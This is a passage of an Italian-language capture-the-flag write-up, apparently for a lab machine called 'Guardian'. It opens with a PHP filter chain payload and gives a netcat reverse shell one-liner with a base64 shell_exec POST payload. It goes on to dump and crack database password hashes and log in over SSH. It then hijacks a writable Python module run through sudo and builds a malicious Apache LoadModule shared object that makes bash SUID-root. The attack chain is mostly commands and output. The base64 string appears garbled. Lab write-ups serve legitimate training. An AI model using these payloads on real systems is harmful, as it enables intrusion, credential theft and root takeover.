convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
```

E si utilizza Burpsuite per inoltrare la richiesta con la PHP filter chain passando come payload il codice per eseguire una reverse shell verso la macchina Kali.


Payload per la reverse shell verso la porta 9001 in ascolto sulla macchina Kali.

```text
# Reverse shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.16.x 9001 >/tmp/f

# Base64 Encoding
cm0gL3RtcC9ms21rdmlmbyAvdZ1wL2f7d2F0IC90bXAvZnwvYsluLaJhc1ggLWkgMj4mfXxuYyAxMC4xMC4xNi4sNSArMDAxId6FsG1xG2Y

# Key=Value POST request
a=shell_exec("echo cm0gL3RtcC9ms21rdmlmbyAvdZ1wL2f7d2F0IC90bXAvZnwvYsluLaJhc1ggLWkgMj4mfXxuYyAxMC4xMC4xNi4sNSArMDAxId6FsG1xG2Y|base64 -d|bash");
```

Si invia il payload e si ottiene una shell come **www-data**.

```bash
$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.16.x] from (UNKNOWN) [10.x.x.x] 49214
bash: cannot set terminal process group (1098): Inappropriate ioctl for device
bash: no job control in this shell
www-data@guardian:~/portal.guardian.htb/admin$ ls
ls
chat.php
chats.php
courses.php
createuser.php
enrollments.php
index.php
notices
profile.php
reports
reports.php
settings.
```

## Data Exfiltration as www-data

Dall'analisi del repository **portal.guardian.htb** si capisce che la persistenza viene gestita con **mysql**.

```php
# config/config.php
<?php
return [
    'db' => [
        'dsn' => 'mysql:host=localhost;dbname=guardiandb',
        'username' => 'root',
        'password' => 'Gu4rd14n_un1_1s_th3_b3st',
        'options' => []
    ],
    'salt' => '8Sb)tM1vs1SS'
];
```

Quindi, si cercano informazioni sul db accedendo con le credenziali **root:Gu4rd14n_un1_1s_th3_b3st**.

```bash
www-data@guardian:~/portal.guardian.htb/admin$ mysql --user=root --password='Gu4rd14n_un1_1s_th3_b3st' --execute='USE guardiandb; SHOW TABLES;'

Tables_in_guardiandb
assignments
courses
enrollments
grades
messages
notices
programs
submissions
users

www-data@guardian:~/portal.guardian.htb/admin$ mysql --user=root --password='Gu4rd14n_un1_1s_th3_b3st' --execute='USE guardiandb; DESCRIBE users;'

Field   Type    Null    Key     Default Extra
user_id int     NO      PRI     NULL    auto_increment
username        varchar(255)    YES     UNI     NULL
password_hash   varchar(255)    YES             NULL
full_name       varchar(255)    YES             NULL
email   varchar(255)    YES             NULL
dob     date    YES             NULL
address text    YES             NULL
user_role       enum('student','lecturer','admin')      YES             student
status  enum('active','inactive')       YES             active
created_at      timestamp       YES             CURRENT_TIMESTAMP       DEFAULT_GENERATED
updated_at      timestamp       YES             CURRENT_TIMESTAMP       DEFAULT_GENERATED on update CURRENT_TIMESTAMP

www-data@guardian:~/portal.guardian.htb/admin$ mysql --user=root --password='Gu4rd14n_un1_1s_th3_b3st' --execute='USE guardiandb; DESCRIBE users;'

Field   Type    Null    Key     Default Extra
user_id int     NO      PRI     NULL    auto_increment
username        varchar(255)    YES     UNI     NULL
password_hash   varchar(255)    YES             NULL
full_name       varchar(255)    YES             NULL
email   varchar(255)    YES             NULL
dob     date    YES             NULL
address text    YES             NULL
user_role       enum('student','lecturer','admin')      YES             student
status  enum('active','inactive')       YES             active
created_at      timestamp       YES             CURRENT_TIMESTAMP       DEFAULT_GENERATED
updated_at      timestamp       YES             CURRENT_TIMESTAMP       DEFAULT_GENERATED on update CURRENT_TIMESTAMP
```

Si memorizzano e trasferiscono sulla macchina Kali le credenziali rubate.

```bash
www-data@guardian:~/portal.guardian.htb/admin$ mysql --user=root --password='Gu4rd14n_un1_1s_th3_b3st' --execute='USE guardiandb; SELECT username, password_hash FROM users;' > /tmp/users.txt

www-data@guardian:~/portal.guardian.htb/admin$ mysql --user=root --password='Gu4rd14n_un1_1s_th3_b3st' --execute='USE guardiandb; SELECT password_hash FROM users;' > /tmp/passwd.txt
```

## Crack the Passwords

Dal file **portal.guardian.htb/admin/createuser.php** si risale a come vengono memorizzate le password.

```php
$password = hash('sha256', $password . $salt);
```

Si utilizza hashcat per il cracking delle passwords.


Da [https://hashcat.net/wiki/doku.php?id=example_hashes](https://hashcat.net/wiki/doku.php?id=example_hashes) il formato per crackare con hashcat prevede di concatenare il salt al valore della password.

Si modifica il file **passwd.txt**, concatenando alle password il **salt**.

```bash
# password:salt
$ sed -e 's/$/:8Sb)tM1vs1SS/' -i passwd.txt
```

Si tenta il cracking delle passwords.

```bash
$ hashcat -a 0 -m 1410 passwd.txt /usr/share/wordlists/rockyou.txt.gz

694a63de406521120d9b905ee94bae3d863ff9f6637d7b7cb730f7da535fd6d6:8Sb)tM1vs1SS:fakebake000
c1d8dfaeee103d01a5aec443a98d31294f98c5b4f09a0f02ff4f9a43ee440250:8Sb)tM1vs1SS:copperhouse56
```

```bash
$ cat users.txt| grep -E "(694a63de406521120d9b905ee94bae3d863ff9f6637d7b7cb730f7da535fd6d6|c1d8dfaeee103d01a5aec443a98d31294f98c5b4f09a0f02ff4f9a43ee440250)"                              
admin   694a63de406521120d9b905ee94bae3d863ff9f6637d7b7cb730f7da535fd6d6
jamil.enockson  c1d8dfaeee103d01a5aec443a98d31294f98c5b4f09a0f02ff4f9a43ee440250
```

Si ottengono le credenziali di **admin:fakebake000** e di **jamil:copperhouse56**.

Si tenta l'accesso a ssh con **jamil:copperhouse56**.

```bash
$ ssh jamil@guardian.htb
```

Funziona!

## Shell as jamil

Si accede al file **user.txt**.

```bash
jamil@guardian:~$ cat user.txt
e10b4c29cc02
```

## Privilege Escalation

```bash
jamil@guardian:~$ sudo -l
Matching Defaults entries for jamil on guardian:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User jamil may run the following commands on guardian:
    (mark) NOPASSWD: /opt/scripts/utilities/utilities.py
```

Si ha la possibilita' di eseguire il comando con i privilegi di **mark**.

```bash
jamil@guardian:~$ /opt/scripts/utilities/utilities.py -h
usage: utilities.py [-h] {backup-db,zip-attachments,collect-logs,system-status}

University Server Utilities Toolkit

positional arguments:
  {backup-db,zip-attachments,collect-logs,system-status}
                        Action to perform
options:
  -h, --help            show this help message and exit
```

Si enumerano le risorse alla quale si ha accesso come **jamil**.

```bash
jamil@guardian:~$ id
uid=1000(jamil) gid=1000(jamil) groups=1000(jamil),1002(admins)

jamil@guardian:~$ find / -group admins -type f -exec ls -lah '{}' \; 2>/dev/null
-rw-r----- 1 root admins 287 Apr 19 08:15 /opt/scripts/utilities/utils/attachments.py
-rw-r----- 1 root admins 246 Jul 10 14:20 /opt/scripts/utilities/utils/db.py
-rwxrwx--- 1 mark admins 253 Apr 26 09:45 /opt/scripts/utilities/utils/status.py
-rw-r----- 1 root admins 226 Apr 19 08:16 /opt/scripts/utilities/utils/logs.py
-rwxr-x--- 1 root admins 1.2K Apr 20 14:45 /opt/scripts/utilities/utilities.py
```

Si puo' accedere con i privilegi di **scrittura** al file **status.py**.

```python
import platform
import psutil
import os

def system_status():
    print("System:", platform.system(), platform.release())
    print("CPU usage:", psutil.cpu_percent(), "%")
    print("Memory usage:", psutil.virtual_memory().percent, "%")
```

Si modifica il file aggiungendo un comando per lanciare una shell sfruttando i privilegi di **mark**.

```python
import platform
import psutil
import os

os.system("/bin/bash -p")

def system_status():
    print("System:", platform.system(), platform.release())
    print("CPU usage:", psutil.cpu_percent(), "%")
    print("Memory usage:", psutil.virtual_memory().percent, "%")
```

Si lancia il programma modificato e si accede alla shell comebash **mark**.

```bash
jamil@guardian:~$ sudo -u mark /opt/scripts/utilities/utilities.py system-status

mark@guardian:/home/jamil$ id
uid=1001(mark) gid=1001(mark) groups=1001(mark),1002(admins)
```

### Shell as mark
---

```bash
mark@guardian:~$ sudo -l
Matching Defaults entries for mark on guardian:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mark may run the following commands on guardian:
    (ALL) NOPASSWD: /usr/local/bin/safeapache2ctl
```

Con **sudo** si puo' eseguire il comando **safeapache2ctl**.

```bash
mark@guardian:~$ /usr/local/bin/safeapache2ctl -h
Usage: /usr/local/bin/safeapache2ctl -f /home/mark/confs/file.conf

mark@guardian:~$ file /usr/local/bin/safeapache2ctl
/usr/local/bin/safeapache2ctl: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=0690ef286458863745e17e8a81cc550ced004b12, for GNU/Linux 3.2.0, not stripped
```

Si e' cercato online informazioni su questo programma, ma nulla.

Si scarica il programma **safeapache2ctl** sulla macchina Kali per continuare l'analisi.

### Static Binary Analisys
---

Si utilizza radare2 per decompilare il binario.

```bash
$ radare2 safeapache2ctl
```



Si analizza il **main**.



Sostanzialmente, il programma prende un file di configurazione specificato dall'utente e contenuto in **/home/mark/confs/\*** ed esegue il command-line tool **apache2ctl**.

> The **apachectl** is a front end to the Apache HyperText Transfer Protocol (HTTP) server. It is designed to help the administrator control the functioning of the Apache httpd daemon.
> Source: [https://httpd.apache.org/docs/2.4/programs/apachectl.html](https://httpd.apache.org/docs/2.4/programs/apachectl.html)

Viene invocata la funziona **is_unsafe_line**.


Questa funziona permette di specificare nel file di configurazione passato al programma solo le direttive **IncludeOptional** e **LoadModule**.

L'idea e' quella di sfruttare i privilegi di **root** per caricare un file di configurazione malevole. 

Si utilizza la direttiva **LoadModule** che permette di caricare moduli **.so (shared object)**.

### Crafting the payload & Exploitation
---

Il payload viene definito in **evil.c**.

```c
#include <unistd.h>
#include <stdlib.h>

__attribute__((constructor)) void init() {
        setuid(0);
        system("chmod +s /bin/bash");
}
```

Si costruisce anche il file di configurazione **file.conf**.

```text
LoadModule evil_module /home/mark/confs/evil.so
```

E si caricano i file sulla macchina target e si esegue l'exploit.

```bash
# Craft the Module
mark@guardian:~$ gcc -c -Wall -Werror -fpic confs/evil.c && gcc -shared -o confs/evil.so confs/evil.o

# Pass the configuration file
mark@guardian:~$ sudo /usr/local/bin/safeapache2ctl -f /home/mark/confs/file.conf
apache2: Syntax error on line 1 of /home/mark/confs/file.conf: Can't locate API module structure `evil_module' in file /home/mark/confs/evil.so: /home/mark/confs/evil.so: undefined symbol: evil_module
Action '-f /home/mark/confs/file.conf' failed.
The Apache error log may have more information.

# Check the bash
mark@guardian:~$ ls -lah /bin/bash
-rwsr-sr-x 1 root root 1.4M Mar 14  2024 /bin/bash
```

## **Shell as root**

```bash
mark@guardian:~$ /bin/bash -p
bash-5.1# id
uid=1001(mark) gid=1001(mark) euid=0(root) egid=0(root) groups=0(root),1001(mark),1002(admins)
```

Si accede al file **root.txt**.

```
bash-5.1# cat /root/root.txt
a3981e15bd9
```

---